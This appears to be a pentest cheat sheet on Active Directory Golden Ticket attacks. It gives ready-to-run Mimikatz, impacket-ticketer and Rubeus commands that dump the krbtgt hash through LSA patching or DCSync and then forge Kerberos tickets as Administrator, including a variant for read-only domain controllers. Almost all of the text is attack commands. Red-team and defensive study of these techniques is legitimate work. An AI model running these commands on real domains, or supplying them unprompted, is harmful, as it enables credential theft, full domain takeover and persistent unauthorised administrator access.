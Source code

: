 # Golden Ticket

### 1) Retrieve the krbtgt hash

From the DC by dumping LSA

    Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dc

With a DCSync

    Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'

### 2) Create TGT

    Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:<domain_SID> /krbtgt:<krbtgt_hash> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

    impacket-ticketer -aesKey KRBTGT_AES_KEY -domain-sid DOMAIN_SID -domain DOMAIN ANY_USER

    mimikatz "kerberos::golden /user:ADMIN_USER /domain:DOMAIN /sid:DOMAIN-SID /aes256:KRBTGT_AES256 /ptt"

# RODC Golden ticket

In case of a RODC, it is still possible to forge a Golden Ticket but the KRBTGT's version number is needed and only the accounts allowed to authenticate can be specified in the ticket (according to the msDS-RevealOnDemandGroup and msDS-NeverRevealGroup lists).

    .\Rubeus.exe golden /rodcNumber:<krbtgt_number> /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /aes256:<krbtgt_aes_key> /user:user1 /id:<user_RID> /domain:domain.local /sid:<domain_SID>
